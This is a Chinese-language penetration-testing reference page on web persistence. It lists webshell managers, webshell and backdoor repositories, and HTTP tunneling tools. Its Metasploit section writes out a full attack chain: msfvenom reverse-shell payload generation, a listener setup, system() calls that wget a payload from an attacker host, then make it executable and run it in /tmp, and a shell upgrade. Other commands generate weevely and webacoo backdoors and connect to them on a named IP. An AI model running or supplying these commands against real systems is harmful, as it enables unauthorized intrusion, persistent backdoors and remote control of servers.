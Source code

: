 Web持久化
----------------------------------------

WebShell管理工具
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `菜刀 <https://github.com/Chora10/Cknife>`_
	+ 支持asp，jsp，php，不支持HTTPS。
	+ 一句话木马通用后门。
- `Cknife <https://github.com/Chora10/Cknife>`_
	+ 支持asp，jsp，php，支持HTTPS。
	+ 一句话木马通用后门。
- `antSword <https://github.com/antoor/antSword>`_
	+ 支持asp，jsp，php。
	+ 一句话木马通用后门。
- `冰蝎 <https://github.com/rebeyond/Behinder>`_
	+ 动态二进制加密网站管理客户端，支持java,.net,php，HTTPS。
	+ 非通用后门。
- `Altman <https://github.com/keepwn/Altman>`_ 
	+ 支持asp，jsp，php。
- `Webshell Sniper <https://github.com/WangYihang/Webshell-Sniper>`_ 
	+ 仅支持在类Unix系统上运行。
- `quasibot <https://github.com/Smaash/quasibot>`_ complex webshell manager, quasi-http botnet
- webacoo
	+ 仅支持PHP，非通用后门。
	+ 生成webshell： ``webacoo -g -o webacootest.php`` 
	+ 连接后门： ``webacoo -t -u http://106.54.74.40/webacootest.php`` 
- `weevely3 <https://github.com/epinna/weevely3>`_ Weaponized web shell
	+ 仅支持PHP，非通用后门。
	+ 生成webshell： ``weevely generate weevelytest ./weevelyphp.php`` 
	+ 连接后门： ``weevely http://106.54.74.40/weevelyphp.php weevelytest`` 
	+ 连接成功后，输入help，可以查看支持的命令和功能，注意执行模板命令需要加:号。
- `Godzilla哥斯拉 <https://github.com/BeichenDream/Godzilla>`_
	+ 支持asp，jsp，php，支持HTTPS。
	+ 非通用后门。
- Metasploit生成后门
	+ ``msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.131 -f asp > shell.asp`` 
	+ ``msfvenom  -p linux/x64/meterpreter/reverse_tcp LHOST=118.195.199.66 LPORT=7777 -f elf > shell_x64.elf``
	+ 开启C2服务
		::
		
			use exploit/multi/handler
			set PAYLOAD windows/meterpreter/reverse_tcp
			set LHOST 10.10.10.131
			set LPORT 7777
			exploit
			
	+ 上传木马
		
		::
		
		
			命令执行上传：
			system('wget http://10.10.10.131/shell_x64.elf -P /tmp/')
			
	+ 执行木马
	
		::
			
			system('chmod 777 /tmp/shell_x64.elf')
			system('/tmp/shell_x64.elf')
			注意tmp目录有写入执行权限。
		
			web页面：system("curl http://10.10.10.131/shell.asp")
				
	+ 交互
		::
		
		
			进入交互页面meterpreter会话执行以下：
			shell
			python -c "import pty;pty.spawn('/bin/bash')"

WebShell
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `php-reverse-shell <http://pentestmonkey.net/tools/web-shells/php-reverse-shell>`_
	+ ``$ip = '127.0.0.1';  // CHANGE THIS``
	+ ``$port = 3333;       // CHANGE THIS``
	+ 注意根据实际情况需要修改(若sh如何指向dash，为非交互的shell)：``$shell = 'uname -a; w; id; /bin/sh -i';->$shell = 'uname -a; w; id; /bin/bash -i';``
- `webshell <https://github.com/tennc/webshell>`_
- `PHP backdoors <https://github.com/bartblaze/PHP-backdoors>`_
- `php bash - semi-interactive web shell <https://github.com/Arrexel/phpbash>`_
- `Python RSA Encrypted Shell <https://github.com/Eitenne/TopHat.git>`_
- `b374k - PHP WebShell Custom Tool <https://github.com/b374k/b374k>`_
- `c99shell <https://github.com/KaizenLouie/C99Shell-PHP7>`_
- `wso <https://github.com/phpFileManager/WSO>`_
- `JSPSPY <https://www.webshell.cc/wp-content/uploads/2013/09/ASPXspy2.rar>`_
- `ASPXSPY <https://www.webshell.cc/wp-content/uploads/2013/09/ASPXspy2.rar>`_
- `phpspy <https://www.webshell.cc/wp-content/uploads/2013/09/phpspy.rar>`_
- ``/usr/share/webshells/*`` 

Web后门
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `pwnginx <https://github.com/t57root/pwnginx>`_
- `Apache backdoor <https://github.com/WangYihang/Apache-HTTP-Server-Module-Backdoor>`_
- `SharpGen <https://github.com/cobbr/SharpGen>`_  .NET Core console application that utilizes the Rosyln C# compiler to quickly cross-compile .NET Framework console applications or libraries
- `IIS-Raid <https://github.com/0x09AL/IIS-Raid>`_ A native backdoor module for Microsoft IIS

转发
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `reDuh <https://github.com/sensepost/reDuh>`_ Create a TCP circuit through validly formed HTTP requests
- `reGeorg <https://github.com/sensepost/reGeorg>`_ pwn a bastion webserver and create SOCKS proxies through the DMZ. Pivot and pwn
- `Neo-reGeorg <https://github.com/L-codes/Neo-reGeorg>`_ Neo-reGeorg is a project that seeks to aggressively refactor reGeorg
- `ABPTTS <https://github.com/nccgroup/ABPTTS>`_ TCP tunneling over HTTP/HTTPS for web application servers
